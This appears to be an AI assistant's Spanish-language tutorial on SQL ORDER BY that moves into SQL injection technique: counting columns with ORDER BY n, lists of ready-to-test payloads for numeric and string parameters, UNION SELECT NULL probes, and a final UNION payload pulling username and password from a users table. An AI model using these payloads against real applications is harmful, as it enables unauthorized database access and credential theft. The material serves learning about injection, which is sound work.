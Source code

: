`ORDER BY` sirve para **ordenar** los resultados de una consulta según una o varias columnas.

* `ORDER BY columna` → ordena por el contenido de `columna`. Por defecto `ASC` (ascendente).
* `ORDER BY columna DESC` → ordena de forma descendente.
* También se puede usar por **posición**: `ORDER BY 1` (primera columna del `SELECT`), `ORDER BY 2` (segunda), etc.

---

## 2) Ejemplo visual — tabla `products`

Tabla `products`:

| id | name       | category | price | released |
| -- | ---------- | -------- | ----- | -------- |
| 1  | Teddy Bear | Gifts    | 20    | 1        |
| 2  | Toy Car    | Toys     | 15    | 1        |
| 3  | Mug        | Gifts    | 8     | 0        |
| 4  | Chocolate  | Gifts    | 5     | 1        |
| 5  | Board Game | Toys     | 30    | 1        |

### Consultas y resultados

* `SELECT id, name, price FROM products ORDER BY price ASC;` → ordena por `price` (columna explícita).

* `SELECT id, name, price FROM products ORDER BY 2;` → ordena por la **segunda columna del SELECT**, es decir `name`.

Resultados (para `ORDER BY 2`):

| id | name       | price |
| -- | ---------- | ----- |
| 5  | Board Game | 30    |
| 4  | Chocolate  | 5     |
| 3  | Mug        | 8     |
| 1  | Teddy Bear | 20    |
| 2  | Toy Car    | 15    |

---

## 3) ¿Por qué `ORDER BY n` sirve para contar columnas en SQLi?

* `ORDER BY n` se refiere a la **posición** `n` en la lista de columnas del `SELECT` (no a la tabla en sí).
* Si la consulta original tiene, por ejemplo, 3 columnas (`SELECT a, b, c ...`) y probás `ORDER BY 4`, el motor devolverá un **error** porque no existe la columna en la posición 4.
* En una inyección SQL, iterás `ORDER BY 1`, `ORDER BY 2`, `ORDER BY 3`, ... hasta que el `ORDER BY N` produce error. El primer `N` que falla indica que hay `N-1` columnas.

**Importante:** esto cuenta las columnas del `SELECT` que la aplicación construye, no necesariamente todas las columnas que tiene la tabla (salvo que el `SELECT` use `*`, en cuyo caso coinciden).

---

## 4) Ejemplo práctico (SQLi)

Imaginá que la app ejecuta internamente:

```sql
SELECT id, name, price FROM products WHERE id = <INPUT>
```

Si inyectás en `INPUT`:

* `1' ORDER BY 1--` → OK
* `1' ORDER BY 2--` → OK
* `1' ORDER BY 3--` → OK
* `1' ORDER BY 4--` → ERROR (no existe la 4ª columna)

Resultado: la consulta tiene 3 columnas.

**Si la consulta original fuera `SELECT * FROM products ...`**, el `ORDER BY` por posición se refiere a la expansión de `*` (todas las columnas de la tabla), por lo que el conteo te dirá cuántas columnas tiene la tabla en ese contexto.

---

## 5) Payloads listos para probar

* Parámetro **numérico** (sin comillas):

```
1 ORDER BY 1--
1 ORDER BY 2--
1 ORDER BY 3--
1 ORDER BY 4--
```

* Parámetro **string** (necesita cerrar comilla):

```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
' ORDER BY 4--
```

* Alternativa con `UNION SELECT` (cuando no ves errores):

```
' UNION SELECT NULL--            -- prueba 1 columna
' UNION SELECT NULL, NULL--      -- prueba 2 columnas
' UNION SELECT NULL, NULL, NULL-- -- prueba 3 columnas
```

Cuando el `UNION` deje de fallar sabrás el número de columnas.

---

## 6) Advertencias y matices

* Si la aplicación **suprime errores**, `ORDER BY` no mostrará fallo visible. Usa `UNION` o inyección ciega (time/boolean).
* Si la consulta original ya contiene un `ORDER BY`, inyectar otro puede romper la sintaxis.
* Si el input se utiliza en otra parte del SQL (p. ej. dentro de una subquery), `ORDER BY` puede no referirse a la lista de columnas que esperás.
* En algunas bases o APIs la referencia por posición puede comportarse ligeramente distinto; la técnica es ampliamente válida en MySQL, PostgreSQL, MSSQL y Oracle en su forma básica.

---

## 7) Ejemplo final: usar el número de columnas para `UNION` y exfiltrar

Si descubriste que el `SELECT` tiene 3 columnas, podés probar:

```sql
' UNION SELECT NULL, NULL, CONCAT(username,0x3a,password) FROM users--
```

Ajustá la columna que contiene texto para que la app la muestre (por ejemplo, si solo la 2ª columna aparece en la página, pon el payload en la 2ª posición: `NULL, payload, NULL`).

---

Si querés, lo subo al lienzo como archivo separado (por ejemplo `theory/ORDER_BY_SQLi.md`) y te genero un bloque listo para copiar en tu repo. ¿Querés que lo guarde así?
